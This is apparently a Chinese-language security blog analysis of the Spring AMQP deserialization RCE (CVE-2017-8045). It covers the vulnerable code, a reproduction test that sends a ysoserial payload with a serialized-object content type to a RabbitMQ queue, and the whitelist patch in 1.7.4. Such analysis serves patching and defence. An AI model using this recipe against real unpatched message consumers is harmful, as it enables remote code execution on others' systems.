 ## Spring AMQP远程代码执行漏洞(CVE-2017-8045)分析

> 最近国外研究人员先后爆出Spring Data REST远程代码执行漏洞(CVE-2017-8046)和Spring AMQP远程代码执行漏洞(CVE-2017-8045)，CVE-2017-8046关注的人比较多，这里对CVE-2017-8045进行简单分析

### 漏洞原因

在Spring AMQP的Message类中，文件路径为spring-amqp/src/main/java/org/springframework/amqp/core/Message.java。getBodyContentAsString方法中将接收到的消息进行反序列化操作，从而导致任意代码执行。代码如下:

```
private String getBodyContentAsString() {
		if (this.body == null) {
			return null;
		}
		try {
			String contentType = (this.messageProperties != null) ? this.messageProperties.getContentType() : null;
			if (MessageProperties.CONTENT_TYPE_SERIALIZED_OBJECT.equals(contentType)) {
				return SerializationUtils.deserialize(this.body).toString();
			}
	......
	}
```
可以看到这里如果要触发漏洞，其中一个条件是要将请求的ContentType设置为application/x-java-serialized-object。

```
public static final String CONTENT_TYPE_SERIALIZED_OBJECT = "application/x-java-serialized-object";
```

### 代码分析
先分析存在漏洞的代码版本[spring-amqp-1.7.3.RELEASE](https://github.com/spring-projects/spring-amqp)，整个项目代码中共有两处提供反序列化方法的类，分别是SerializerMessageConverter类和SerializationUtils类。

其中SerializerMessageConverter继承了WhiteListDeserializingMessageConverter类并实现了反序列化方法deserialize，代码如下：

```
private Object deserialize(ByteArrayInputStream inputStream) throws IOException {
		try {
			ObjectInputStream objectInputStream = new ConfigurableObjectInputStream(inputStream,
					this.defaultDeserializerClassLoader) {

				@Override
				protected Class<?> resolveClass(ObjectStreamClass classDesc)
						throws IOException, ClassNotFoundException {
					Class<?> clazz = super.resolveClass(classDesc);
					checkWhiteList(clazz);
					return clazz;
				}

			};
			return objectInputStream.readObject();
		}
		catch (ClassNotFoundException ex) {
			throw new NestedIOException("Failed to deserialize object type", ex);
		}
	}
```

上面代码可以看到在deserialize函数中hook了objectInputStream的resolveClass方法并调用WhiteListDeserializingMessageConverter类的checkWhiteList方法对反序列化的类进行白名单检查，如果反序列化的类不在白名单就抛出异常。WhiteListDeserializingMessageConverter类中同时实现了setWhiteListPatterns方法来设置反序列化的白名单。但在1.7.3版本中并未见到任何地方使用该函数进行白名单设置，所以这个白名单控制还是依赖使用到spring-amqp的开发人员自行设置，如果开发人员不设置依旧可能存在反序列化漏洞。

在SerializationUtils类的反序列化方法中则未进行任何安全校验：

```
public static Object deserialize(byte[] bytes) {
		if (bytes == null) {
			return null;
		}
		try {
			return deserialize(new ObjectInputStream(new ByteArrayInputStream(bytes)));
		}
	......
	public static Object deserialize(ObjectInputStream stream) {
		if (stream == null) {
			return null;
		}
		try {
			return stream.readObject();
		}
		......
	}
```
而本次漏洞触发点getBodyContentAsString函数中调用的正是SerializationUtils的deserialize方法。

### 漏洞利用

Message类中toString方法调用了getBodyContentAsString函数，而该漏洞发现者介绍，该方法在代码中许多错误处理及日志记录中会调用到并给出了相关[demo](https://lgtm.com/blog/static/spring_amqp/Application.java)。该程序只允许接收JSON格式消息，此时使用ysoserial生成payload，并将 Content-Type设置为application/x-java-serialized-object，然后发送消息，因为demo程序只允许接收json格式消息，所以会触发异常，从而调用并将消息带入toString函数触发漏洞执行任意代码。

可以使用[spring-amqp-samples](https://github.com/spring-projects/spring-amqp-samples)中的demo，将Application中container方法中添加：

```
listenerAdapter.setMessageConverter(new Jackson2JsonMessageConverter());
```
在测试用例中修改发送消息格式：

```
public void test() throws Exception {

        InputStream in = new FileInputStream("testfile");
        ByteArrayOutputStream bytestream = new ByteArrayOutputStream();

        int ch;
        while((ch = in.read()) != -1) {
            bytestream.write(ch);
        }

        byte[] data = bytestream.toByteArray();
        Message message = MessageBuilder.withBody(data)
                .setContentType(MessageProperties.CONTENT_TYPE_SERIALIZED_OBJECT)
                .setMessageId("8045")
                .setHeader("foo", "test")
                .build();

        rabbitTemplate.convertAndSend(Application.queueName, message);
        receiver.getLatch().await(10000, TimeUnit.MILLISECONDS);
    }
```

安装RabbitMQ，mac下安装使用命令即可：
>brew install rabbitmq

在resources目录创建application.properties文件，内容如下：

```
spring.rabbitmq.host=localhost
spring.rabbitmq.port=5672
spring.rabbitmq.username=guest
spring.rabbitmq.password=guest
spring.rabbitmq.virtualHost=
```
使用ysoserial生成payload文件，接着调试运行即可。
### 补丁分析

在修复版本以1.7.4为例，getBodyContentAsString中反序列化接口改为调用SerializerMessageConverter的fromMessage方法将AMQP消息转换为对象，并使用setWhiteListPatterns函数设置了允许被反序列化类的白名单，只允许反序列化java.util.*和java.lang.*开头的类：

```
static {
		SERIALIZER_MESSAGE_CONVERTER.setWhiteListPatterns(Arrays.asList("java.util.*", "java.lang.*"));
	}
```
详细见https://github.com/spring-projects/spring-amqp/commit/36e55998f6352ba3498be950ccab1d5f4d0ce655

### 参考

* https://lgtm.com/blog/spring_amqp_CVE-2017-8045
* http://www.cnvd.org.cn/webinfo/show/4247
* https://pivotal.io/security/cve-2017-8045
* https://jira.spring.io/browse/AMQP-766
